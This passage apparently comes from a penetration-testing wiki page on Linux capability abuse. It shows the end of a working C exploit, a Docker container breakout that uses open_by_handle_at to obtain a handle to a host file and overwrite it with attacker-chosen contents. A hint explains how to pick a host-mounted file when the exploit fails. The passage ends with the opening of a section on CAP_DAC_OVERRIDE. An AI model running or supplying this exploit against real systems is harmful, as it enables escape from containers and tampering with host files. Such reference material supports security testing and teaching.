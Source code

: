 ```c
      0,
      0
    }
  };
  fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
    "[***] The tea from the 90's kicks your sekurity again. [***]\n"
    "[***] If you have pending sec consulting, I'll happily [***]\n"
    "[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");
  read(0, buf, 1);
  // get a FS reference from something mounted in from outside
  if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
    die("[-] open");
  if (find_handle(fd1, argv[1], & root_h, & h) <= 0)
    die("[-] Cannot find valid handle!");
  fprintf(stderr, "[!] Got a final handle!\n");
  dump_handle( & h);
  if ((fd2 = open_by_handle_at(fd1, (struct file_handle * ) & h, O_RDWR)) < 0)
    die("[-] open_by_handle");
  char * line = NULL;
  size_t len = 0;
  FILE * fptr;
  ssize_t read;
  fptr = fopen(argv[2], "r");
  while ((read = getline( & line, & len, fptr)) != -1) {
    write(fd2, line, read);
  }
  printf("Success!!\n");
  close(fd2);
  close(fd1);
  return 0;
}
```

{% hint style="danger" %}
I exploit needs to find a pointer to something mounted on the host. The original exploit used the file `/.dockerinit` and this modified version uses `/etc/hostname`. **If the exploit isn't working** maybe you need to set a different file. To find a file that is mounted in the host just execute `mount` command:
{% endhint %}

![](<../../.gitbook/assets/image (407) (2).png>)

**The code of this technique was copied from the laboratory of "Abusing DAC\_READ\_SEARCH Capability" from** [**https://www.pentesteracademy.com/**](https://www.pentesteracademy.com)

### CAP\_DAC\_OVERRIDE

**This mean that you can bypass write permission checks on any file, so you can write any file.**
